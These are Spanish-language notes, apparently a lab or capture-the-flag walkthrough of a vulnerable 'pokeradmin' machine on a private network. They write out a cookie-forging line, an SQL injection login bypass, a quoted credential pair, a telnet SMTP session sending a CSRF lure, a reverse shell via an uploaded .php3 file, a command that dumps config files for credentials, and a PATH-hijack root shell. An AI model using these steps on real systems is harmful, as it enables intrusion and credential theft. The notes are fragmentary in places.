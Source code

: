 
- Consola
```HTTP-console
javascript:document.cookie = "ValidUserAdmin=admin";
```

- http://192.168.1.149/pokeradmin/configure.php
```Burp
admin' or 1=1-- - pass=edwsw
```

- Hay una ruta y nos chiva que los mensajes que tenemos que enviar por telnet son como abajo
- Encontramos el exploit **php/webapps/35301.html**, que nos dice como hacer csrf
1. Creamos HTML con e
>admin:raise12million
```bash
 telnet 192.168.1.149 25
Trying 192.168.1.149...
Connected to 192.168.1.149.
Escape character is '^]'.
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
MAIL FROM:sexo
250 2.1.0 Ok
RCPT TO:valenka
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject:valenka
Mira prima, esto es para ti
http://192.168.1.135/index.html

.
250 2.0.0 Ok: queued as ED0B8BAC1
quit

```

- Valenka no visita, vamos a intentar hacer un sqli de su passwd para poder ejecutar en la ruta que hemos subido el .php3(no se si valenka puede llegar a esa ruta)
- Tras subir el archivo **.php3** nos da una reverse shell
- Desde /var/www/html buscamos un archivo config el cuál nos puede dar credenciales
- Cuándo tenemos **phpmyadmin**, buscar por archivos **config**
> Encontraremos credenciales en algunos sitios para pivotar al user  **valenka**
```bash
find . -name \*config\* 2>/dev/null -exec cat {} \; | less -S -r
```

```bash
strings binario al primer binario que encontramos
```

- Vemos que intenta ejecutar algo que no tiene ruta absoluta
>/bin/bash **run.sh**

- Lo creamos donde queramos
```bash
nano run.sh
#!/bin/bash
bash -p
```
